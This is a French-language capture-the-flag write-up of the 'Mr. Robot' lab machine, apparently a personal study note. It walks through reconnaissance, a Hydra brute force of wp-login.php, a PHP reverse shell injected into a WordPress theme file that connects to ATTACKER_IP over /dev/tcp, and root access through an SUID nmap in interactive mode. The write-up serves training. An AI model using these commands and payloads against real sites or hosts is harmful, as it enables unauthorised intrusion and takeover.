

### **Récapitulatif organisé de l’exploitation : Mr. Robot**

---

### **1. Reconnaissance de la cible**

#### **1.1 Test de connectivité**

- **Commande :**
    
    ```bash
    ping <IP_TARGET>
    ```
    
- **Résultat :** La cible répond, confirmant sa disponibilité.

#### **1.2 Accès à la page web**

- J'ai ouvert l'IP dans Firefox pour voir si un service HTTP est actif.
- **Observation :**
    - Une page web de style "Mr. Robot" est affichée.
    - Plusieurs indices potentiellement intéressants, dont un **username visible** : **root**.

#### **1.3 Scan avec Nmap**

- **Commande :**
    
    ```bash
    nmap -sV <IP_TARGET>
    ```
    
- **Résultat :**
    - **Port 80 (HTTP)** : Serveur Apache.
    - **Port 443 (HTTPS)** : Serveur actif.
    - **Port 22 (SSH)** : Fermé.

#### **1.4 Exploration des répertoires avec Gobuster**

- **Commande :**
    
    ```bash
    gobuster dir -u http://<IP_TARGET> -w <wordlist>
    ```
   
- **Résultat :** 
    - Répertoire `/robots` découvert, contenant :
        
        ```
        User-agent: *
        fsocity.dic
        key-1-of-3.txt
        ```
        
    - Actions :
        - Téléchargé `fsocity.dic` : Une wordlist.
        - Récupéré **key-1-of-3.txt** : Premier flag trouvé.

---

### **2. Analyse de la cible : WordPress**

#### **2.1 Identification de WordPress**

- La cible utilise WordPress version **4.1.3**, qui contient plusieurs vulnérabilités connues.

#### **2.2 Scan WordPress avec WPScan**

- **Commande :**
    
    ```bash
    wpscan --url http://<IP_TARGET> --enumerate vp
    ```
    
- **Résultat :**
    - Le service **XML-RPC** est activé, permettant des attaques de bruteforce via API.

#### **2.3 Bruteforce avec Hydra**

- **Exploitation de la faille verbose de WordPress :**
    
    - La page de login **wp-login.php** affiche des messages spécifiques si :
        - L’username est incorrect.
        - Le mot de passe est incorrect.
    - Cette faille permet d’isoler et bruteforcer uniquement l’**username** ou le **mot de passe**.
- **Commande :**
    
    ```bash
    hydra -l Elliot -P fsocity.dic <IP_TARGET> http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=Invalid password"
    ```
    
- **Résultat :**
    
    - **Username trouvé** : Elliot
    - **Mot de passe trouvé** : ER28-652

---

### **3. Exploitation de WordPress**

#### **3.1 Connexion à l'interface WordPress**

- **URL :** `http://<IP_TARGET>/wp-login.php`
- **Credentials :**
    - Username : Elliot
    - Mot de passe : ER28-652
- Résultat : Accès administrateur à WordPress.

#### **3.2 Injection d'un reverse shell**

- **Test 1 : Création d’une page avec un script PHP**
    
    - Échec : Le code PHP semble désactivé dans les pages.
- **Test 2 : Modification d’un plugin**
    
    - J'ai modifié le fichier `archive.php` pour y injecter un script **reverse shell PHP** :
        
        ```php
        <?php
        exec("/bin/bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'");
        ?>
        ```
        
    - **Exécution :** En accédant à l’URL du plugin modifié, le script s’est exécuté.

---

### **4. Shell utilisateur "robot"**

#### **4.1 Obtention d’un shell limité**

- **Commande pour ouvrir un listener local :**
    
    ```bash
    nc -lvnp <PORT>
    ```
    
- **Résultat :** Connexion réussie avec les droits de l’utilisateur **robot**.

#### **4.2 Upgrade du shell**

- Problème : Le shell est limité et ne permet pas d’exécuter certaines commandes interactives.
- Solution : J’ai converti le shell en **shell interactif** avec Python.
    - **Commande :**
        
        ```bash
        python -c 'import pty; pty.spawn("/bin/bash")'
        ```
        

---

### **5. Escalade de privilèges**

#### **5.1 Recherche des fichiers SUID**

- **Commande :**
    
    ```bash
    find / -perm -u=s -type f 2>/dev/null
    ```
    
- **Résultat :** Plusieurs fichiers avec le bit SUID trouvé, dont **Nmap**.

#### **5.2 Exploitation de Nmap**

- **Version :** 3.81 (vulnérable, avec mode interactif).
- **Exploitation :**
    - Commande pour lancer Nmap en mode interactif :
        
        ```bash
        nmap --interactive
        ```
        
    - Dans le mode interactif, j’ai exécuté un shell avec les privilèges root :
        
        ```bash
        !sh
        ```
        
    - **Vérification des privilèges :**
        
        ```bash
        whoami
        ```
        
        Résultat : root

---

### **6. Récupération des flags**

1. **Flag 2 :** J’ai lu la clé réservée à l’utilisateur **robot** :
    
    ```bash
    cat /home/robot/key-2-of-3.txt
    ```
    
2. **Flag 3 :** Une fois root, j’ai trouvé et lu la dernière clé :
    
    ```bash
    cat /root/key-3-of-3.txt
    ```
    

---

### **Résumé technique**

- **Étapes principales :**
    
    - Reconnaissance : Ping, scan Nmap, exploration avec Gobuster.
    - Accès initial : Bruteforce WordPress (username/password).
    - Exploitation WordPress : Reverse shell via un plugin.
    - Escalade de privilèges : Exploitation de Nmap (mode interactif vulnérable).
    - Récupération des flags : Lecture des fichiers root.
- **Accès final obtenu :** `root` avec contrôle total de la machine.
    
#Résumé global des compétences acquises
Bruteforce avancé avec Hydra :

Adapter la syntaxe en fonction des réponses du site.
Exploiter des failles pour optimiser les attaques.
Escalade des privilèges sous Linux :

Identifier les fichiers SUID et comprendre leur rôle.
Exploiter des programmes vulnérables pour devenir root.
Amélioration d'un shell :

Passer d’un reverse shell basique à un shell interactif.
Comprendre les limitations des shells non interactifs.
